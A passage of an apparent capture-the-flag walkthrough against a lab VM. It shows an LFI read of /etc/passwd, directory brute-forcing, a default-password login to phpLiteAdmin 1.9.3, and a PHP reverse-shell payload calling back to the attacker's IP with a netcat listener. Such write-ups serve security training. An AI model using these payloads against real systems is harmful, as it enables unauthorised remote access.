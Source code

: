 ```bash
ntp:x:103:108::/home/ntp:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
statd:x:105:65534::/var/lib/nfs:/bin/false
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
zico:x:1000:1000:,,,:/home/zico:/bin/bash
```

The successful display of `/etc/passwd` confirms the presence of an LFI vulnerability.

### Further Web Server Enumeration

To discover more about the web server's structure, we use a tool called `feroxbuster` to brute-force directories:

```bash
┌──(kali㉿kali)-[~]
└─$ feroxbuster -u http://192.168.56.106
[snip]
301      GET        9l       28w      318c http://192.168.56.106/dbadmin => http://192.1
[snip]
```

This scan reveals a `/dbadmin` directory. Navigating to `http://192.168.56.106/dbadmin` shows a directory listing containing a file named `test_dp.php`.

### Vuln2: phpLiteAdmin

Accessing `http://192.168.56.106/dbadmin/test_db.php` reveals that the server is running `phpLiteAdmin v1.9.3`. We attempt to log in using the common default password `admin`, which succeeds.

## Exploiting phpLiteAdmin

### Researching Vulnerabilities

A quick Google search for "phpLiteAdmin v1.9.3 vulnerabilities" leads us to an [ExploitDB page](https://www.exploit-db.com/exploits/24044) detailing a method to achieve remote code execution.

### Step 1: Preparing the Exploit

We create a PHP file named `shell.php` with the following content:

```php
<?php $sock=fsockopen("192.168.56.107",9001); exec("/bin/sh -i <&3 >&3 2>&3");?>
```

This script, when executed, will create a reverse shell connection back to our attacking machine. Make sure to replace the IP address with your machine's IP.

### Step 2: Setting Up Listeners

On our attacking machine, we set up two listeners:

1. To catch the reverse shell:
   ```bash
   nc -lvnp 9001
   ```
